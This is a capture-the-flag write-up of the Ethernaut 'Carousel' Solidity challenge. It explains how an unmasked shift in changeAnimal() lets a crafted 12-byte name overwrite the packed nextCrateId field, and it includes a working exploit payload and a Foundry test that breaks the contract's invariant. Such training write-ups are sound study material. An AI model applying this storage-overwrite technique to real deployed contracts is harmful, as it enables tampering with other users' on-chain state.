 # Carousel Challenge(Ethernaut)

## Challenge Overview:

The MagicAnimalCarousel contract stores animals in a circular buffer of "crates". Each crate contains three pieces of information packed into a single uint256:

1. owner: 160 bits ([0..159])

2. nextCrateId: 16 bits ([160..175])

3. encodedAnimal: 80 bits ([176..255])

The challenge asks us to break the carousel's "magic rule": that no animal should ever return to crate 1. Our goal is to force a new animal (e.g., "Cat") into crate 1, overwriting the original one (e.g., "Dog").

***Vulnerability***:
 Arbitrary overwriting of the nextCrateId field via an unvalidated animal name in changeAnimal().

**Cause**:
The function changeAnimal(string calldata animal, uint256 crateId) fails to sanitize the middle 16 bits (bits 160–175) of encodedAnimal. This allows an attacker to craft an input where these bits contain a desired nextCrateId value (e.g., 0xFFFF = 65535), which gets stored in the crate directly.

### VulnerabilityCode:
```solidity
// 96 bits allow,it will change the crateId(overwrite the existing ones)
function encodeAnimalName(
        string calldata animalName
    ) public pure returns (uint256) {
        //@audit here length of animal name is only 10 bytes(80 bits) but in carousel it is 12 bytes(96 bits)
        require(bytes(animalName).length <= 12, "Animal name too long");
        return uint256(keccak256(abi.encodePacked(animalName)) >> 160);
    }

// this is change function vulnerability:
 uint256 encodedAnimal = encodeAnimalName(animal);
        if (encodedAnimal != 0) {
            // Replace animal
            carousel[crateId] =
                (encodedAnimal << 160) |
                (carousel[crateId] & NEXT_ID_MASK) |
                uint160(msg.sender);
        } else {
            carousel[crateId] = (carousel[crateId] &
                (ANIMAL_MASK | NEXT_ID_MASK));
        }
```
Here, ```solidity (encodedAnimal << 160) ```places 96 bits starting from bit 160, which overwrites both nextCrateId (16 bits) and encodedAnimal (80 bits).

There's no masking to preserve the old nextCrateId, so it can be replaced with a custom value.


### ProofofExploit:
```solidity
string memory exploitString = string(
    abi.encodePacked(hex"10000000000000000000FFFF")
);
carousel.changeAnimal(exploitString, 1);

```
1. The crafted input (hex"10000000000000000000FFFF") becomes a "fake" animal name.

2. When passed to encodeAnimalName(), it produces an encoded animal with its lower 16 bits set to 0xFFFF.

3. After << 160, this directly places 0xFFFF into bits 160–175, changing nextCrateId to 65535.


### TestCase:
```solidity
function testBreakMagicRule() public {
    carousel.setAnimalAndSpin("Dog");

    uint256 crate1Data = carousel.carousel(1);
    uint256 animalMask = uint256(type(uint80).max) << 176;
    uint256 encodedDog = uint256(keccak256(abi.encodePacked("Dog"))) >> 176;
    uint256 animalInCrate1 = (crate1Data & animalMask) >> 176;
    assertEq(animalInCrate1, encodedDog, "Crate 1 should contain 'Dog'");

    // Step 2: Exploit to inject 0xFFFF as nextCrateId
    string memory exploitString = string(
        abi.encodePacked(hex"10000000000000000000FFFF")
    );
    carousel.changeAnimal(exploitString, 1);

    // Step 3: Write to crate 65535
    carousel.setAnimalAndSpin("Parrot");
    uint256 crate65535Data = carousel.carousel(65535);
    uint256 encodedParrot = uint256(keccak256(abi.encodePacked("Parrot"))) >> 176;
    uint256 animalInCrate65535 = (crate65535Data & animalMask) >> 176;
    assertEq(animalInCrate65535, encodedParrot, "Crate 65535 should contain 'Parrot'");

    // Step 4: Overwrite crate 1 again
    carousel.setAnimalAndSpin("Cat");
    uint256 updatedCrate1Data = carousel.carousel(1);
    uint256 updatedAnimal = (updatedCrate1Data & animalMask) >> 176;
    assertTrue(updatedAnimal != encodedDog, "Crate 1 should not contain Dog anymore");
}

```
### Summary of this Challenge:

1. Insert "Dog" into crate 1 using setAnimalAndSpin("Dog").

2. Exploit changeAnimal() with a crafted string to overwrite nextCrateId of crate 1 to 65535.

3. Insert "Parrot", which lands in crate 65535 due to tampered nextCrateId.

4. Insert "Cat", which wraps around to crate 1 — breaking the magic rule.

***FinalThoughts of this Challenge***:
Its just understanding the core concets in solidity not real world attack